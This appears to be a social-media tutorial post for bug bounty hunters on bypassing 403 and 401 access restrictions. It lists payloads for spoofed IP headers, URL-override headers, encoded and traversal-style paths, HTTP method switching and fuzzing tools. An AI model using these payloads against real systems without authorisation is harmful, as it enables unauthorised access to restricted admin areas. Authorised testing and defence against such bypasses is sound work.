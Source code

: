 🛡 Bypass 403 & 401 HTTP Status Codes:
A Practical Guide for Hackers & Bug Bounty Hunters
403 Forbidden or 401 Unauthorized doesn’t always mean you're blocked permanently. With a bit of creativity and the right techniques, you can bypass restricted endpoints and access sensitive areas of a web app.

Here’s a deep dive into the top methods:

### 🔓 1. Header Injection Tricks
Many web applications restrict access based on IP addresses. You can spoof these headers to make it look like your request is coming from an internal or whitelisted IP:
X-Forwarded-For: 127.0.0.1
```
X-Originating-IP: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Client-IP: 127.0.0.1
```
👉 These headers are often trusted by reverse proxies or poorly configured servers.

### 🌐 2. Unicode/Encoding Tricks
Sometimes filters block specific paths like /admin, but bypass is possible with obfuscated or encoded strings:
```
/adm%69n (URL-encoded 'i')
/admi%6E/
/admīn/ (using Unicode characters)
```
🧠 Try mixing encodings or using UTF-8 homoglyphs to evade naive filters.

### 🪄 3. URL Override with Custom Headers
If the app is behind a proxy (like Apache, NGINX), some headers might let you rewrite the path:
```
X-Original-URL: /admin
X-Rewrite-URL: /admin
X-Override-URL: /admin
```
✅ Sometimes reverse proxies honor these headers and forward the modified path.

### 💣 4. Smart Payloads
Bypass 403 with URL tricks:
```
/admin/
/./admin/
/..;/admin/
/admin/.
/%2e/admin
/accessible/../admin
```
🔍 These payloads rely on path traversal, URL normalization, or unexpected token parsing by the server.

### 🔁 5. HTTP Method Toggling
If GET is blocked, try:
```
POST /admin
OPTIONS /admin
HEAD /admin
```
📌 Some endpoints allow different behavior based on the HTTP method. Always test all verbs.

### 🌐 6. Use IP or VHost Directly
Apps may have different behavior based on the host header or internal IP:
```
http://127.0.0.1/admin
Host: internal.target.com
```
🧠 Useful in SSRF or when attacking services via VPN/intranet/internal redirections.

### 🔍 7. Fuzzing & Bruteforce
When all else fails, fuzz it:
#### ✅Tools like ffuf, dirsearch, feroxbuster, or gobuster
#### ✅Try common bypass payloads, path variants, file extensions
#### ✅ Combine with wordlists like SecLists, PayloadAllTheThings, or custom bypass lists.

🧠 Knowledge = Power. Combine these tricks to chain attacks or bypass WAFs & ACLs.

#bugbountytips #403bypass #ethicalhacking #infosec #penetrationtesting #cybersecurity

❤️ Like + 🔁 share if this helped you or saved you hours of fuzzing!
📡 More content at [@cybersecplayground](https://t.me/cybersecplayground)

